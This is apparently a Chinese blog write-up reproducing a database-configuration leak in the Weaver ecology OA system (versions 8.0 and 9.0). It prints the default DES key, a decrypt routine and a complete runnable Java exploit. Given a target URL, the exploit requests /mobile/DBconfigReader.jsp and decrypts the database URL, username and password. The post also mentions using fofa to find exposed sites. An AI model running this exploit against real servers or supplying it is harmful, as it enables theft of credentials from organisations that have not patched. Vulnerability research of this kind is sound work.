






# 【漏洞复现】泛微ecology OA系统某接口存在数据库配置信息泄露漏洞

[目前](#1)  
      [0x00 前言](#0x00)  
     [0x01 漏洞简诉](#0x01)  
     [0x02 漏洞分析](#0x02)  
     [0x03 漏洞剖析](#0x03)  
     [0x04 漏洞复现](#0x04)  
     [0x05 复现那些泪水](#0x05)  
     [0x06 复现总结](#0x06)  
    [0x07 免责声明](#0x07)

# 0x00 前言

漏洞被曝光有几天时间了。一直在上课没有时间写，昨天晚上整了一晚上，加上今天下午和学长搞了一下午才复现成功！  
经过这次我意识到了会开发的重要性，我前前后后问了一堆人，百度了一堆问题！最后发现会开发能解决这一切问题！

各位看官且看下文分析！

---

# 0x01 漏洞简诉

漏洞涉及范围，用fofa搜索，看影响范围，还挺大的！

影响版本：包括不限于8.0、9.0版  


---

# 0x02 漏洞分析

分析看源码[1]分析，sb字符串是url、user、password和logintype组成！  
然后str是sb的字符串转成字节，（重点！！！）keyString是1z2x3c4v5b6n 。  
keyByte是keyString转成字节而来！  
dsk1 是 DESkeySpec 类对象。  
接下去都是加密的过程！（说实话我现在还有点迷）  


---

经过上面一系列的操作，然后我访问使用payload访问目标站点，会看到是一堆由DES加密的乱码！  


---

# 0x03 漏洞剖析

经过一系列的分析，不难发现利用这漏洞只要掌握两个要点！

1. 获取密钥，这点看不到源码的话是根本不可能实现的。但是我们可以根据上面源码默认密钥1z2x3c4v5b6n。
2. 使用密钥解密DES密文！这个得去看看java如何实现DES加密解密算法，还要研究透DES算法。

   ```java
   /**
      * 解密实现 源码来着https://www.cnblogs.com/itrena/p/9081056.html
      * @param src byte[]
      * @param password String
      * @return byte[]
      * @throws Exception
      */
     public static byte[] decrypt(byte[] src, String password) throws Exception {
             // DES算法要求有一个可信任的随机数源
             SecureRandom random = new SecureRandom();
             // 创建一个DESKeySpec对象
             DESKeySpec desKey = new DESKeySpec(password.getBytes());
             // 创建一个密匙工厂
             SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("DES");
             // 将DESKeySpec对象转换成SecretKey对象
             SecretKey securekey = keyFactory.generateSecret(desKey);
             // Cipher对象实际完成解密操作
             Cipher cipher = Cipher.getInstance("DES");
             // 用密匙初始化Cipher对象
             cipher.init(Cipher.DECRYPT_MODE, securekey, random);
             // 真正开始解密操作
             return cipher.doFinal(src);
         }
   ```

---

# 0x04 漏洞复现

昨天晚上经过大量实践分析，咨询之后！我还是失败了。  
今天早上起来已经是中午。  
像往常一样打开微信QQ看看亲友群[2]、朋友圈、QQ空间！  
当我看到我这个漏洞圈子社区17小时之前有人已经发了exp[3]。我就迫不及待的去试试了！

```java
package com.test;

import org.apache.http.HttpEntity;
import org.apache.http.client.methods.CloseableHttpResponse;
import org.apache.http.client.methods.HttpGet;
import org.apache.http.impl.client.CloseableHttpClient;
import org.apache.http.impl.client.HttpClientBuilder;
import org.apache.http.util.EntityUtils;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.DESKeySpec;
import java.security.SecureRandom;

public class ReadDbConfig {
    private final static String DES = "DES";
    private final static String key = "1z2x3c4v5b6n";

    public static void main(String[] args) throws Exception {
        if(args[0]!=null&& args[0].length() !=0){
            String url = args[0]+"/mobile/DBconfigReader.jsp";
            System.out.println(ReadConfig(url));
        }else{
            System.err.print("use: java -jar ecologyExp  http://127.0.0.1");
        }
    }

    private static String ReadConfig(String url) throws Exception {
        CloseableHttpClient httpClient = HttpClientBuilder.create().build();
        HttpGet httpGet = new HttpGet(url);
        CloseableHttpResponse response = httpClient.execute(httpGet);
        HttpEntity responseEntity = response.getEntity();

        byte[] res1 = EntityUtils.toByteArray(responseEntity);

        byte[] data = subBytes(res1,10,res1.length-10);

        byte [] finaldata =decrypt(data,key.getBytes());

        return (new String(finaldata));
    }

    private static byte[] decrypt(byte[] data, byte[] key) throws Exception {

        SecureRandom sr = new SecureRandom();
        DESKeySpec dks = new DESKeySpec(key);
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance(DES);
        SecretKey securekey = keyFactory.generateSecret(dks);
        Cipher cipher = Cipher.getInstance(DES);
        cipher.init(Cipher.DECRYPT_MODE, securekey, sr);

        return cipher.doFinal(data);
    }

    public static byte[] subBytes(byte[] src, int begin, int count) {
        byte[] bs = new byte[count];
        System.arraycopy(src, begin, bs, 0, count);
        return bs;
    }
}
```

看完之后，有点惊喜又有点失落。惊喜的是有完整的源码，但是没有jar。  
 这个让我一个java菜鸟如何是好！我在求助了一个热心做开发的学长之后，经过我们不断试错！不断debug，终于完成了！  
 

# 0x05 复现那些泪水

千辛万苦解决一切bug之后首先遇见第一道坑！  
 

---

第二道坑！  
 

## 在这里插入图片描述

第三个坑！  
 这个坑是这个网站使用不同的密钥导致的！（也就是密钥不是1z2x3c4v5b6n）

## 在这里插入图片描述

# 0x06 复现总结

1. 开发经验不足
2. 接触太少加密算法
3. 有一个开发朋友很重要
4. 我的安全之路还有很长的路要走

---

# 0x07 免责声明

没有放出jar文件是因为最新安全发的缘故。请遵守《网络安全法》等相关法律法规。

---

[1]源码来着360CET公共号：<https://mp.weixin.qq.com/s/zTEUan_BtDDzuHzmd9pxYg>  
[2]亲友群：就是安全群。在不同安全群常常能见到很多相同的人，所以被称为亲友群。  
[3]exp源码来着：<https://www.secquan.org/BugWarning/1070442>
